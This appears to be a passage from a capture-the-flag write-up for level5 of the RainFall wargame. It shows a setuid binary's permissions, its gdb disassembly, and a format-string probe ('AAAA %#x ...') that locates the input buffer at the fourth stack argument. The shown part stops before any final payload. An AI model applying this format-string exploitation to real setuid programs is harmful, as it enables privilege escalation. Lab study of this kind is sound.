 ### Permissions
As we can see in the permissions of the executable file, the binary `./level5` is executed with the privileges of the user **level6**, the owner of the file.
```bash
level5@RainFall:~$ ls -l level5 
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

## Reverse Engineer

After our input gets captured by the `fgets` function into the buffer, it prints it directly to the `printf` function as unique parameter `printf(buffer)`. This means that we can input format strings for printf and they will be executed.
```
(gdb) set disassembly-flavor  intel 
(gdb) disassemble n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) break *0x080484ea
Breakpoint 1 at 0x80484ea
(gdb) run
Starting program: /home/user/level5/level5 
AAAA %#x %#x %#x %#x %#x %#x %#x %#x

Breakpoint 1, 0x080484ea in n ()
(gdb) x/s $eax
0xbffff440:	 "AAAA %#x %#x %#x %#x %#x %#x %#x %#x\n"
(gdb) x/8xw $eax
0xbffff440:	0x41414141	0x78232520	0x78232520	0x78232520
0xbffff450:	0x78232520	0x78232520	0x78232520	0x78232520
(gdb) continue
Continuing.
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 [0x41414141 0x78232520 0x78232520 0x78232520 0x78232520]
```
As we see here, the *input string* (or the *buffer*) is stored on the `EAX` register and when `printf` executes the *format specifiers* `%x`, retreiving values from the stack (as it doesn't have any parameter to retreive from), we can identify our *input string* `0x41414141 0x78232520 0x78232520 0x78232520 0x78232520` on the **4th** *format specifier* / *argument*.
